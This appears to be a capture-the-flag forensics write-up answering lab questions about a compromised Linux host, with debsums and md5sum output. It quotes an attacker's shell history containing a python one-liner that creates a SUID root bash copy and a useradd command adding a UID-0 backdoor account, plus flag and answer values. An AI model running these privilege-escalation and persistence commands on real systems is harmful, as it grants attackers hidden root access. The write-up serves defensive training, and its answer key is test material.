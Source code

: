 ## Another area to look at within our compromised host's file system is identifying binaries and executables that the attacker may have created, altered, or exploited through permission misconfigurations

### Run the debsums utility on the compromised host to check only configuration files. Which file came back as altered?
Answer: /etc/sudoers

Solution: run debsums command to check the files which were altered

investigator@ip-10-10-20-24:/home$ sudo debsums -e -s
debsums: changed file /etc/sudoers (from sudo package)

### What is the md5sum of the binary that the attacker created to escalate privileges to root?
Anwer: 7063c3930affe123baecd3b340f1ad2c

Solution: for escalating privileges, attacker set SUID bit on a file whih we can see from the history of commands executed.

investigator@ip-10-10-20-24:/home/jane$ sudo cat .bash_history 
whoami
groups
cd ~
ls -al
find / -perm -u=s -type f 2>/dev/null
/usr/bin/python3.8 -c 'import os; os.execl("/bin/sh", "sh", "-p", "-c", "cp /bin/bash /var/tmp/bash && chown root:root /var/tmp/bash && chmod +s /var/tmp/bash")'
ls -al /var/tmp
exit
useradd -o -u 0 b4ckd00r3d
exit
THM{f38279ab9c6af1215815e5f7bbad891b}

==> We can see attacker made copy of "bash" file to /var/tmp/bash directory and set the SUID bit to execute it with elevated priviliges.
we can use md5sum command to check the hash of the bash file 

investigator@ip-10-10-20-24:/home/jane$ md5sum /var/tmp/bash 
7063c3930affe123baecd3b340f1ad2c  /var/tmp/bash

